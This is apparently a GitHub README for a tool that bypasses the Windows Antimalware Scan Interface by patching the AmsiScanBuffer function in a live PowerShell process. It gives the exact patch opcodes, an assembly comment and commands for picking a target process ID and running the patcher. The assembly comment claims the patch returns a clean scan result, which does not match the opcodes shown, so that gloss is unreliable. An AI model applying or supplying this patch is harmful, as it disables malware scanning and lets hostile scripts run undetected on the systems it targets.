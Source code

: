 # AMSIScanBufBypass
Memory Patching AMSIScanBuffer 

Patching the AmsiScanBuffer Method with the following opcodes - 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3

```asm 
mov eax,offset  (offset has AMSI_RESULT_CLEAN) 
ret
```

# Usage

```
Get processid of your target - tasklist | findstr powershell.exe

amsipatch.exe pid
```

![AMSI Bypass](image.PNG)

# Credits
[RastaMouse](https://twitter.com/_RastaMouse) for [ASBBypass.ps1](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass.ps1)

